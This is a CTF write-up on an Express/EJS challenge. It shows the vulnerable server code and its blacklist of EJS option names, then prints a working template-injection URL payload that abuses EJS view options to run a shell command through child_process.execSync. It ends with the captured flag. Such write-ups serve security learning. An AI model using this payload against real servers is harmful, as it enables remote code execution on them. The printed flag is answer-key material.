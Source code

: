 # 🎓🌎 Express JavaScript Security
> My first JavaScript project.

## About the Challenge
We have been given a source code that contains some files with `.js` and `.ejs` extensions (You can download the file [here](dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909)). Here is the content of main.js

```js
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

This is a Node.js Express server application that uses the EJS templating engine to render views. The server listens on port 3000. The application has two main routes: the root route ('/') and the '/greet' route. When accessing the root route, it renders the 'index' view. When accessing the '/greet' route, it checks the query parameters, converts them to a JSON string, and looks for any blacklisted items within the data. If any blacklisted item is found, it returns a 400 response with the message "Can you not?". Otherwise, it parses the JSON data, renders the 'greet' view with the parsed data and disables caching. And then here is the content of `greet.ejs`

```js
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

## How to Solve?
At first, we are using this [website](https://eslam.io/posts/ejs-server-side-template-injection-rce/) to perform Remote Code Execution, but `outputFunctionName` is blacklisted. Therefore, we need to find another working payload. Finally, I found another working payload after doing some googling. (Check out this [website](https://blog.z3ratu1.cn/hxpCTF2022wp.html)). Here is the final payload that I used to solve this challenge:

```
http://ejs.web.seetf.sg:1337/greet?name=test&font=test&fontSize=test&settings[view%20options][client]=1&settings[view%20options][escape]=%7B%7D.constructor.constructor(%22return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)%22)
```

I am executing the `/readflag` command to obtain the flag.

![flag](images/flag.png)

```
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```